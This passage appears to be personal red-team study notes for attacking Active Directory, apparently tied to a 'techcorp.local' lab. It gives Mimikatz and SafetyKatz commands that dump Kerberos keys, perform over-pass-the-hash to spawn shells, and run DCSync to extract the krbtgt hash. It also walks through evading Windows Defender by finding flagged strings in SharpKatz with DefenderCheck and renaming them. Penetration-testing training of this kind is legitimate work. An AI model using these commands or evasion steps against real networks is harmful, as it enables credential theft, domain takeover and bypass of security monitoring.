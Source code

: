 ~~~
safetykatz.exe "sekurlsa::ekeys"
~~~

### Over Pass The Hash

Over Pass the hash (OPTH) generate tokens from hashes or keys.


~~~
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:us.techcorp.local /aes256:<aes256key> /run:powershell.exe"' 
~~~

~~~
SafetyKatz.exe "sekurlsa::pth /user:administrator /domain:us.techcorp.local /aes256:<aes256keys> /run:cmd.exe" "exit"
~~~

The above commands starts a PowerShell session with a logon type 9 (same as runas /netonly).

### DCSync

Domain Admins privileges are required to run DCSync

To extract credentials from the DC without code execution on it, we can use DCSync.

To use the DCSync feature for getting krbtgt hash execute the below command with DA privileges for us domain:

~~~
Invoke-Mimikatz -Command '"lsadump::dcsync /user:us\krbtgt"'
~~~

~~~
SafetyKatz.exe "lsadump::dcsync /user:us\krbtgt" "exit"
~~~

Refrence:https://freedium.cfd/https://pswalia2u.medium.com/active-directory-attack-paths-with-exploitation-will-be-updated-as-i-learn-more-b23b5cfdae10

### Offensive .NET

####  Tradecraft - AV bypass

For that, we can use techniques like Obfuscation, String Manipulation etc

DefenderCheck

`https://github.com/matterpreter/DefenderCheck`

To identify code and strings from a binary that Windows Defender may flag.


Let’s check SharpKatz.exe for signatures using DefenderCheck

~~~
DefenderCheck.exe <Path to Sharpkatz binary>
~~~

- Open the project in Visual Studio.
- Press **CTRL + H**
- Find and replace the string “Credentials” with “Credents” you can use any other string as an replacement. (Make sure that string is not present in the code)
- Select the scope as **Entire Solution**.
- Press **Replace All** button.
- Build and recheck the binary with _DefenderCheck_.
- Repeat above steps if still there is detection
